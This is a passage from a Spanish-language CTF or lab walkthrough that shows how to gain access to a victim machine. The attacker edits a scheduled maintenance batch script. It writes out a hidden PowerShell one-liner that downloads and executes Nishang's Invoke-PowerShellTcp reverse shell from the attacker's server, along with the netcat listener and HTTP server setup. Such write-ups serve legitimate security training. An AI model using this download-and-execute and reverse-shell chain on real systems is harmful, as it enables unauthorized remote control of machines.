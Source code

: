 
<h2 id="Exploit">Aprovechandonos de Script mantenimiento.bat para Ganar Acceso a la Máquina Víctima</h2>

Vamos a jugar un poco con este script **mantenimiento.bat**, para poder ganar acceso a la máquina víctima.

<br>

<h3 id="revShell">Utilizando Invoke-PowerShellTcp.ps1 de Nishang y Modificando Script mantenimiento.bat para que lo Ejecute</h3>

Como ya vimos que este script ejecuta una **Reverse Shell** de un servidor remoto, solamente tenemos que crear nuestra **Reverse Shell**, levantar un servidor y modificar el script **mantenimiento.bat** para que apunte a nuestro servidor.

Primero, vamos a descargar el **script Invoke-PowerShellTcp.ps1 de Nishang** que nos servirá como una **Reverse Shell**.

Aquí lo puedes encontrar:
* <a href="https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1" target="_blank">Repositorio de samratashok - Invoke-PowerShellTcp.ps1</a>

La podemos descargar con **wget**:
```bash
wget https://raw.githubusercontent.com/samratashok/nishang/refs/heads/master/Shells/Invoke-PowerShellTcp.ps1
...
```

Modificamos este script, agregándole al final la instrucción que indica que será utilizado como una **Reverse Shell**:
```powershell
    {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port."
        Write-Error $_
    }
}

Invoke-PowerShellTcp -Reverse -IPAddress Tu_IP -Port 443
```

Levanta un servidor con **Python3**:
```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Utiliza **rlwrap** para abrir una **netcat** que capturará la **Reverse Shell**:
```bash
rlwrap nc -nlvp 443
listening on [any] 443 ...
```

Modificamos el script **mantenimiento.bat** para agregar nuestra IP y el nombre del script de **Nishang**:
```powershell
:: Reverse shell a Kali
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "iex(New-Object Net.WebClient).DownloadString('http://Tu_IP/Invoke-PowerShellTcp.ps1')"
```
